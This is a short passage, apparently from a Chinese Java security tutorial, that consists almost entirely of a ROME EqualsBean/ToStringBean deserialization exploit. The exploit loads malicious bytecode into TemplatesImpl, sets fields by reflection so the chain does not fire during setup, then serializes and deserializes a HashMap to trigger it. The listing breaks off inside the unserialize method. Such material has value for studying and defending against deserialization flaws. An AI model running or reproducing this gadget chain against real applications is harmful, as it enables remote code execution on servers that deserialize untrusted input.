 ## EXP(EqualsBean)：

```bash
package EXPROME;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;

public class RomeToStringBean {
    public static void setValue(Object obj,String name,Object value)throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception{

        byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXPROME/Demo.class"));
        byte[][] codes = {code};
        TemplatesImpl templates = new TemplatesImpl();
        Class tc = templates.getClass();
        setValue(templates,"_name","Ic4F1ame");
        setValue(templates, "_tfactory", new TransformerFactoryImpl());
        setValue(templates,"_bytecodes",codes);

//防止序列化触发
        ToStringBean toStringBean = new ToStringBean(Templates.class,new ConstantTransformer(1));
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);

        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put(equalsBean,"123");

//再改回正常的参数
        Field field = toStringBean.getClass().getDeclaredField("_obj");
        field.setAccessible(true);
        field.set(toStringBean,templates);
        serialize(hashMap);
        unserialize("ser.bin");
    }




    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
```